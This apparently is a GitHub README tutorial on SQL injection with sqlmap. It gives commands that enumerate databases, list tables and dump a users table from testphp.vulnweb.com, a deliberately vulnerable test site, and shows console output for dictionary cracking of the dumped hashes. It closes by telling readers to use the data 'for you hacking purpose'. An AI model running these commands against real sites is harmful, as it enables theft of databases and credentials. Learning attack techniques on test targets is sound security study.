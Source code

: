 # Sql Injection:

## 1.Installing sqlmap in kali linux:
    sudo apt-get update
    sudo apt-get upgrade -y
    sudo apt-get install sqlmap
## 2.About Sqlmap working
    man sqlmap

![Screenshot 2025-05-29 164447](https://github.com/user-attachments/assets/c12598a3-0058-4355-8fc6-131a5793c28b)



## 3.Attacking
     sqlmap -u <website link> http://testphp.vulnweb.com/listproducts.php?cat=1  -dbs

     ![Screenshot 2025-05-29 164651](https://github.com/user-attachments/assets/d63353d2-d1fb-4d69-92e9-423ab73313ee)



## 4.Getting database details

After getting the deatils of the Database managament (DBMS) of the database and with that we will also get the tables and coloumns of the database now we target the (DBMS) and in that the tables we target so, for that the command is

        sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 -D acuart --tables
![Screenshot 2025-05-29 164732](https://github.com/user-attachments/assets/978ba1d1-8161-4474-8d04-943723a9041a)


## 5.dump data

After getting the deatils of the tables which the database has then we procced and download all the Data which the 'user' contain.

      sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=2 -D acuart -T users --dump-all

![Screenshot 2025-05-29 164825](https://github.com/user-attachments/assets/237de1c6-0cfe-4324-9bc3-361306c69912)



      writing hashes to a temporary file '/tmp/sqlmapkis89bs647009/sqlmaphashes-aaiq4oy_.txt' 
      do you want to crack them via a dictionary-based attack? [Y/n/q] Y
      using hash method 'md5_generic_passwd'
      what dictionary do you want to use?
      [1] default dictionary file '/usr/share/sqlmap/data/txt/wordlist.tx_' (press Enter)
      [2] custom dictionary file
      [3] file with list of dictionary files
      > 1
      using default dictionary
      do you want to use common password suffixes? (slow!) [y/N] N


![Screenshot 2025-05-29 164918](https://github.com/user-attachments/assets/5a627331-87c1-40eb-bc05-d443848158f6)




**After that the data is saved as the .csv file and by default all the tables is dumped and stored and the path is given at the last where it stored**

        /home/kali/.local/share/sqlmap/output/testphp.vulnweb.com

![Screenshot 2025-05-29 165001](https://github.com/user-attachments/assets/3e11c7b7-c419-4fe4-9da1-273dee6abe19)

 

**Now just cd into the directory and cat the files and use the data for you hacking purpose.**
